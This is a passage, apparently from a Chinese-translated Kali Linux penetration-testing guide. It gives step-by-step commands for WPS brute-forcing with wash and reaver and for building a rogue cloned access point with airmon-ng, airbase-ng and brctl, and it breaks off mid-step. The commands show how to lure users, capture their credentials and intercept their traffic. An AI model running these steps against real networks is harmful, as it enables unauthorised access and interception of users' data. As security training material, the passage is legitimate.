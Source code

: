Reaver 是一个旨在最大化猜测过程的工具（尽管 Wifite 也进行 WPS 猜测）。

要启动“掠夺者”攻击，请使用名为`wash`的配套工具来识别以下命令中给出的任何易受攻击的网络：

```
root@kali:~# wash -i wlan0 --ignore-fcs

```

如果存在任何易受攻击的网络，请使用以下命令对其发起攻击：

```
root@kali:~# reaver -i wlan0 -b (BBSID) -vv

```

在卡利测试这一攻击表明，攻击速度缓慢，容易失败；但是，它可以用作背景攻击，也可以补充其他攻击路线，以危害 WPA 网络。

# 克隆接入点

针对无线网络的更有趣的攻击之一是克隆接入点，然后监控用户尝试连接时传输的信息。攻击者不仅可以访问身份验证凭据，还可以利用中间人攻击拦截或重定向网络流量。

Kali 中包含的几个工具声称支持克隆或生成流氓接入点；然而，目前这些工具存在缺陷。例如，社会工程工具包和 Websploit 没有与预先安装在 Kali 中的 DHCP 服务器集成。

大多数攻击者寻找外部工具，包括 Gerix 或 easy creds 等脚本；然而，`aircrack-ng`套件还包括一个工具。`airbase-ng`，用于克隆接入点。

若要创建假无线接入点，攻击者将：

1.  在监控模式下启动`wlan0`，使用以下命令创建`mon0`监控界面：

    ```
    root@kali:~# airmon-ng start wlan0

    ```

2.  使用以下命令在`mon0`上设置接入点（AP）。社会工程可以对 AP 的成功产生重大影响，因此使用一个能够吸引目标客户的名字。在本例中，我们将使用开放式 Wi-Fi 网络的通用名称。将在 WiFi 信道六上建立：

    ```
    root@kali:~# airbase-ng --essid Customer_Network 
      -c 6 mon0 

    ```

3.  使用以下命令安装桥接器实用程序：

    ```
    apt-get install bridge-utils

    ```

4.  In another terminal window, create a bridge (`rogue`) and link `at0` (the `at0` interface is created by the previous command) to `eth0` using the bridge utilities (note that bridge utilities must first be installed using `apt-get install bridge-utils`).

    ```
    root@kali:~# brctl addbr rogue
    root@kali:~# brctl addif rogue at0
    root@kali:~# brctl addif rogue eth0
